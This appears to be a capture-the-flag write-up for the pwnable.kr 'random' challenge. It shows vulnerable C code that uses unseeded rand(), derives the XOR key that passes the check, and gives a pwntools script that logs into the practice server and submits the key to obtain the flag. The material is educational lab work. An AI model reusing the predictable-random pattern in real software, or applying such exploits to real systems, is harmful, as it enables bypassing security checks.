 ```yaml
---
title: pwnable.kr - random
description: My writeup on random challenge.
categories:
 - pwnablekr
tags: pwnablekr pwntools python xor rand exploit
---
```


![](https://i.imgur.com/cg6lYs1.png)

Hi all, that was a really interesting challenge.

You can start playing there > [pwnable.kr](http://pwnable.kr/){:target="_blank"}

## Binary/Source Code - Enumeration/Reconnaissance

```
Daddy, teach me how to use random value in programming!

ssh random@pwnable.kr -p2222 (pw:guest)
```

First step we connect to `pwnable.kr` server, after we can see these files :

```
random@pwnable:~$ ls
flag  random  random.c
```

`flag` contains our flag, `random` is the binary that we have to exploit, `random.c` has the vulnerable code that we have to analyze.

```c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```

Note: i dont code C, but i can understand C.

The problem lies here :

```c
random = rand();
```

This code generates bad random numbers, when you call rand() without a seed it uses the value 1 as a default seed. Anyone else on the same machine with the same compiler who calls rand() with a seed of 1 will get the same random number. WOW dangerous.

So let's code a simple C code to grab this random number. You can go under `/tmp` and create a directory.

```c
#include <stdio.h>
int main() {
   unsigned int random;
   random = rand();  
   
   printf("%d\n", random);

   return 0;
}

```

Let's compile it & run it.

```
random@pwnable:/tmp/atooom$ gcc -Wall exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:4:13: warning: implicit declaration of function ‘rand’ [-Wimplicit-function-declaration]
    random = rand();  
             ^
random@pwnable:/tmp/atooom$ ./exploit
1804289383
random@pwnable:/tmp/atooom$ ./exploit
1804289383
random@pwnable:/tmp/atooom$ ./exploit
1804289383
```

Now, to grab the flag we have to do this : 

```c
(key ^ random) == 0xdeadbeef 
```

## XOR operator explanation

^ = means XOR operation

For example :

```
0 ^ 0 = 0
0 ^ 1 = 1
1 ^ 0 = 1
1 ^ 1 = 0
```

We can do this with python pretty easy : 

```
>>> 0 ^ 0
0
>>> 1 ^ 0
1
```

## Exploitation

We can reverse this :

```c
(key ^ random) == 0xdeadbeef 
```

To be : 

```c
(random ^ 0xdeadbeef) == key
```

Let's do this with python.

```
>>> 1804289383 ^ 0xdeadbeef
3039230856
```

Let's input this now :

```
random@pwnable:~$ ./random
3039230856
Good!
Mommy, I thought libc random is unpredictable...
```

## pwntools exploit

I coded this exploit to automate the process :

```python
from pwn import *
#context.log_level = 'debug'

def exploit():
    shell = ssh(host='pwnable.kr', user='random', password='guest', port=2222)
    exp = shell.process(executable='./random')
    exp.sendline(str(3039230856))
    exp.recvline()  # for "Good!"
    log.success(exp.recvline())

if __name__ == '__main__':
	exploit()
```



